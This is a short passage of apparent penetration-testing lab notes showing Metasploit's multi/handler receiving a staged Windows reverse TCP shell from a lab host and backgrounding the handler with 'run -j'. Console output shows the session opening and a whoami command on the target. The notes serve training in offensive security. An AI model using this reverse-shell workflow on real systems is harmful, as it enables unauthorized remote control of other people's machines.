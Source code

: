 Run. 

Executed staged.exe on target and received reverse shell.

```
[*] Started reverse TCP handler on 192.168.119.2:443 
[*] Sending stage (336 bytes) to 192.168.50.202
[*] Command shell session 6 opened (192.168.119.2:443 -> 192.168.50.202:50838) at 2022-08-01 10:18:13 -0400
Shell Banner:
Microsoft Windows [Version 10.0.20348.169]
-----
C:\Users\justin> whoami
whoami
brute2\justin
```

Staged and more advanced payloads will need multi/handler as opposed to netcat.

Re-executing this payload to demo `run -j` which will background the execution process.

```hlt:1,5
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.119.2:443 
msf6 exploit(multi/handler) > jobs
Jobs
====
  Id  Name                    Payload                        Payload opts
  --  ----                    -------                        ------------
  1   Exploit: multi/handler  windows/x64/shell/reverse_tcp  tcp://192.168.119.2:443
```